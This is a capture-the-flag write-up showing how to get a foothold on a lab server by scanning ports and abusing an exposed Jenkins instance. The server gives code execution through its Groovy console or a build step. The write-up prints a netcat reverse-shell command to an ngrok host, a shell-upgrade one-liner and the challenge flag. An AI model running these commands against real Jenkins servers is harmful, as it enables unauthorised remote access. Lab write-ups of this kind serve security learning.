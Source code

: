 ### Aincrad: Foothold
###### Description: Hello Hackers We are RATH we got an old sao server running. Hack your way in.

###### aincrad.cybsec.in

###### NOTE:- 22PORT IS OUT OF SCOPE SO DONT WASTE TIME PLEASE NO DIRBUST AND BRUTEFORCE IT IS NOT REQUIRED. THE MACHINE IS JUST EXPERIMENTAL SO IT WILL RESET EVERY 1 HOUR JUST VOTE IN THE RESPECTIVE DISCORD FOR RESETS.

---
Let's start off with an Nmap scan-

**Command:**
```bash
nmap -T4 -v -oN nmap/nmap.out aincrad.cybsec.in
```
**Results:**
```
PORT     STATE    SERVICE
22/tcp   open     ssh
53/tcp   open     domain
80/tcp   open     http
2000/tcp open     cisco-sccp
5060/tcp open     sip
5061/tcp filtered sip-tls
8008/tcp open     http
8010/tcp open     xmpp
8080/tcp open     http-proxy
```
We know that ssh is out of scope. Taking a look at port 80, I found nothing of interest.

But if we go to port 8080, however, we see **Jenkins**. Jenkins is an open source automation server that's used to automate tasks related to building, testing and deploying applications, among other things.

We can use this to get code execution on the server, and consequently, get a shell. Now, there were 2 ways to do this.

> Note: If you cannot do port forwarding for some reason (like you're using mobile hotspot instead of a router), or you just don't want to, you can use [ngrok](https://ngrok.com/ "ngrok").

For the first one, we could go to `aincrad.cybsec.in:8080/script`. This would take us to a page where we could write a [Groovy script](https://groovy-lang.org/index.html "Groovy script") and use that to get a shell using something like this-

```
cmd = "nc 2.tcp.ngrok.io 48215 -e /bin/bash/"
cmd.execute()
```
---
I'm going to show the second method (the longer one) in more detail because that's the one I have screenshots of. So here goes-

When we visited port 8080, we were greeted by something like this-

![](./images/ss1.jpeg)

If we clicked on "New Item" or "Create a job", we were taken to the following screen-

![](./images/ss2.jpeg)

Gave it a name, selected freestyle project, and clicked ok. Now, there was an option to add a build step, where we could tell it to execute a shell script.

![](./images/ss3.jpeg)

We can easily get a shell back using something like the following command-

![](./images/ss4.jpeg)

After saving, we have now successfully created a project. Now, when we click on "Build now", we can get the server to execute the shell command we gave it during the creation of the project. Setting up the `nc` listener in advance and clicking "Build now", we have the shell.

Now, we can easily upgrade the shell by using the following command-

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
Running `whoami` tells us that we are `jenkins`, which makes sense since that's what we used to get our shell. Now looking in jenkins' home directory, one of the files that stood out was named **`jenkins.txt`**.

If we do `cat jenkins.txt`, we have our foothold flag!

**pCTF{gr00vy_1s_n0_fun}**
